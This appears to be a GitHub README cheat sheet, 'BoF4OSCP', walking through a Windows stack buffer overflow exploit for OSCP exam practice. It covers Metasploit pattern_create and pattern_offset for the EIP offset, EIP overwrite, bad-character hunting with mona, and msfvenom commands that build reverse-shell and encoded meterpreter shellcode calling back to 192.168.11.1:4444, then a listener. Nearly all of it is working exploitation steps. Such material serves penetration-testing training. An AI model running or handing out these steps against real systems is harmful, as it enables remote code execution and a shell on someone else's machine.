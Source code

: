 # BoF4OSCP

## 1st step

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000

run python3 offset.py
```

check on mona what is the EIP address
Take the EIP address that looks EIP 386F...

## 2nd step : pattern create

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337 (EIP ADDRESS)
[*] Exact match at offset 2003
```

## 3rd step : control EIP

edit eipOverwrite.py with the correct offset
run python3 eipOverwrite.py
check on Immunity if EIP is well overwritten with 4B4B4B

## 4th step : finding bad chars

python3 findingBadchars.py
right click on ESP, follow in dump

find the badchars using the following command
```
!mona compare -f c:\mona\bytearray.bin -a 005FF910(ESP ADDRESS)
```

## 5th step : fire up the reverse shell

We can also create an encoded one if some sort of protections are presents
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.11.1 LPORT=4444 EXITFUNC=thread -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.11.1 LPORT=4444 -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
edit finalBuff
setup a listener
python3 finalbuff
```
